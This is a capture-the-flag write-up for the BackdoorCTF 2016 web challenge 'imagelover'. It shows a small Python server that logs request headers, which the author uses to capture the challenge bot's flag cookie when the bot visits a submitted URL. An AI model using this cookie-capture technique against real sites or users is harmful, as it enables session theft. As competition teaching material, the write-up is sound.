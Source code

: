 ```yaml
---
title: "imagelover"
layout: post
date: 2016-05-30 4:21
tag:
- BackdoorCTF2016
- Web
- Backdoor
writeup: true
star: false
points: 70
category: Web
---
```


**BackdoorCTF is the annual flagship CTF competition conducted by SDSLabs and InfoSecIITR.**

#### Points: 70

#### Description:

>Find imagelover [here](http://hack.bckdr.in:6969/)

## Write-up

When I went to the specified website it said:

>Imagelover loves viewing pictures of people. He has opened this website so that you can share your pics with him. Imagelover visits the image with his flag as a sign of gratitude.

There was a URL box to add our link to photos. So it said "Imagelover visits the image with his `flag`". The only way to do this would be to send a GET request to the website we enter and send the flag in the Headers. So I googled and found this script to print the Headers of anyone who sends a GET request to my VPS.

~~~python
import SimpleHTTPServer
import SocketServer
import logging

PORT = 8000

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):

    def do_GET(self):
        logging.error(self.headers)
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = ServerHandler

httpd = SocketServer.TCPServer(("", PORT), Handler)

print "serving at port", PORT
httpd.serve_forever()
~~~

Basically I hosted my VPS with the script above and entered the URL in place of a photograph URL. Imagelover would visit it and I would get the flag from the Headers.

And as expeced as soon as I submitted my URL I got a GET request with the flag in the cookie.

